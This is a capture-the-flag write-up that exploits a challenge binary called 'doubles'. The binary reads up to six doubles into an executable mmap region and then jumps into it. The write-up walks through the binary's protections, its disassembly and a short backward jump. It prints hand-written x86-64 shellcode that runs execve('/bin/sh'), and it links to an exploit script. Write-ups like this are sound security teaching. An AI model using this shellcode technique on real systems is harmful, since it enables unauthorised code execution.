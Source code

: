 It is a x64 ELF file:

doubles: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e5511e0c31ccc63eda7398cbbfdf1d479f4854cd, not stripped

The binary protections:

Canary                        : No

NX                            : Yes

PIE                           : No

Fortify                       : No

RelRO                         : Partial

The binary only have the NX enabled. So no execution on memory allocations including stack.

However on the static analysis it is possible to determine that a new memory allocation is being done with mmap() on 0x4007c9.

![memory](doubles_1.png)

The allocation is done randomly on memory, with 0x10000 bytes and with execution permission.

![memory](doubles_2.png)

Here part of the disassembled binary:

![binary](doubles_3.png)

The address of the allocated memory by mmap() is saved on $r14 to use during the execution. And then, there is the first scanf() at 0x40081. This will read an unsigned integer from the user's input.

![scanf](doubles_4.png)

This will determine how many double ints you want to write (up to 0x6 times) on the allocated memory at the address 0x40085a, another scanf().

![scanf](doubles_5.png)

And then the registers are zeroed, but $rax with the allocated memory+0x70 bytes and it finally jumps there where it contains the last double int from the input.

![exec](doubles_6.png)

So it will have the shellcode submitted in double (up to 0x6 times) and the $rip will be 0x70 bytes from this.

It is necessary to reach the entire shellcode jumping -0x78 bytes from the execution, there are some opcode bytes on the offset 0x70 that will clear $rax (0x909090909090c031) along with some NOPs.

There are opcode bytes that do the jump for short distances, for -0x78 bytes are *\xeb\x86*.

All registers were zeroed including $esp and $ebp ($rsp/$rbp) during the last block of execution. My tactic was to use $rip as reference for constructing the shellcode since it was the only address available on the registers. 

0x7ffff7ff6000:	lea    rdi,[rip+0x19]        # Copying the address from $rip+0x19 where it contains the /bin/sh%00

0x7ffff7ff6007:	nop

0x7ffff7ff6008:	lea    rbx,[rdi]             # Copying the address from $rdi to $rbx

0x7ffff7ff600b:	lea    rsp,[rdi]             # Copying the address from $rdi to $rsp

0x7ffff7ff600e:	nop

0x7ffff7ff600f:	nop

0x7ffff7ff6010:	mov    rax,0x3b               # Setting $rax to 0x3b, execve syscall

0x7ffff7ff6017:	nop

0x7ffff7ff6018:	syscall                       # syscall

The $rbx is not necessary for the execution.

And executing the exploit.

![exploit](doubles_final.png)

Link to the [exploit!](exploit.py)
